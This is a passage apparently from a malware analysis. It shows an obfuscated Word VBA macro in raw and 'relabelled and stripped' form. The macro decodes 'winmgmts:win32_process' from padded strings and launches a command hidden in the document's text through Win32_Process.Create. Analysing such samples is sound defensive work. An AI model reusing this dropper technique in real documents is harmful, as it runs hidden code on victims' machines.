 ```vb
End Function

Function FUNC_3(F3_PARAM_1)
    X99gngssmzsqq = Whcl9h6l9d7m8
       GoTo F3_FILE_1
'   [...]
    F3_FILE_1:
    FUNC_3 = Replace(F3_PARAM_1, "]e1r[S", Kt0_vcn5tcw)
       GoTo F3_FILE_2

    Dim F3_FS_2 As Object
    Set F3_FS_2 = CreateObject("Scripting.FileSystemObject")
    Dim F3_FILE_2 As Object
    Set F3_FILE_2 = F3_FS_2.CreateTextFile("K:\GPxCKeLBF\oKHCHmpdJ.TlXQC")
    F3_FILE_2.WriteLine " "
    F3_FILE_2.Close
    Set F3_FS_2 = Nothing
    Set F3_FILE_2 = Nothing

    F3_FILE_2:
End Function
```

Relabelled and stripped VBA code:

```vb
Attribute VB_Name = "Zm6erye0ms_u"

Function FUNC_1()
    On Error Resume Next
    VAR_1 = T77vhvocooru69svd.StoryRanges.Item(4 / 4)
    STRING_2 = "]e1r[Sp]e1r[S"
    STRING_1 = "]e1r[Sro]e1r[S]e1r[Sce]e1r[Ss]e1r[Ss]e1r[S]e1r[S"
    STRING_3 = "]e1r[S:w]e1r[S]e1r[Sin]e1r[S3]e1r[S2]e1r[S_]e1r[S"
    STRING_4 = "w]e1r[Sin]e1r[Sm]e1r[Sgm]e1r[St]e1r[S]e1r[S"
    STRING_5 = "]e1r[S" + Mid(Application.Name, 6, 1) + "]e1r[S"
    STRING_6 = STRING_4 + STRING_5 + STRING_3 + STRING_2 + STRING_1
    STRING_7 = FUNC_2(STRING_6)
    Set Pk_5ig5b_s73znxc0 = CreateObject(STRING_7)
    STRING_8 = Mid(VAR_1, (15 / 3), Len(VAR_1))
    Pk_5ig5b_s73znxc0.Create FUNC_2(STRING_8), Voimejxb5291hk, Q3bxn77g1219
End Function

Function FUNC_2(F2_PARAM_1)
    On Error Resume Next
    F2_PARAM_2 = (F2_PARAM_1)
    F2_PARAM_3 = FUNC_3(F2_PARAM_2)
    FUNC_2 = F2_PARAM_3
End Function

Function FUNC_3(F3_PARAM_1)
    X99gngssmzsqq = Whcl9h6l9d7m8
    FUNC_3 = Replace(F3_PARAM_1, "]e1r[S", Kt0_vcn5tcw)
End Function
```
